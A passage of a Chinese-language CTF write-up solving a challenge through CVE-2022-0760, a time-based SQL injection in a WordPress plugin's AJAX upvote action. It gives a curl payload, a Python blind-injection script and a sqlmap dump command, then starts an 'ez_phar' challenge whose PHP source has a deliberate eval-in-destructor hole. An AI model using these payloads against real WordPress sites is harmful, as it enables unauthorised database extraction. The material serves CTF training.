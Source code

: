 可以看到是**[CVE-2022-0760](https://wpscan.com/vulnerability/1c83ed73-ef02-45c0-a9ab-68a3468d2210)**

```bash
curl 'http://example.com/wp-admin/admin-ajax.php' --data 'action=qcopd_upvote_action&post_id=(SELECT 3 FROM (SELECT SLEEP(5))enz)' 
```

盲注脚本

```python
import requests
import time

url = 'http://1.14.71.254:28504/wp-admin/admin-ajax.php'

dicts = r'NSSCTF{-abcdef0123456789}'

flag = ''

for i in range(1,99999):
    for s in dicts:
        payload = "(SELECT 3 FROM (SELECT if(ascii(substr((select group_concat(flag) from ctftraining.flag),{},1))={}, sleep(5),0))enz)".format(i,ord(s))
        start_time = time.time()
        print(s)
        res = requests.post(url,data={
            'action': 'qcopd_upvote_action',
            'post_id': payload
            })
        stop_time = time.time()
        if stop_time - start_time >= 5:
            flag += s
            print('FOUND!!!',flag)
            break
```

也可以**sqlmap**梭

```bash
python .\sqlmap.py -u http://1.14.71.254:28423/wp-admin/admin-ajax.php --data 'action=qcopd_upvote_action&post_id=1' -p post_id --dbms mysql --random-agent -D ctftraining -T flag --dump
```

在给出的docker环境里可以看到数据库中**flag**的位置

## web[week3]

### ez_phar

```php
<?php
show_source(__FILE__);
class Flag{
    public $code;
    public function __destruct(){
    // TODO: Implement __destruct() method.
        eval($this->code);
    }
}
$filename = $_GET['filename'];
file_exists($filename);
?>
```
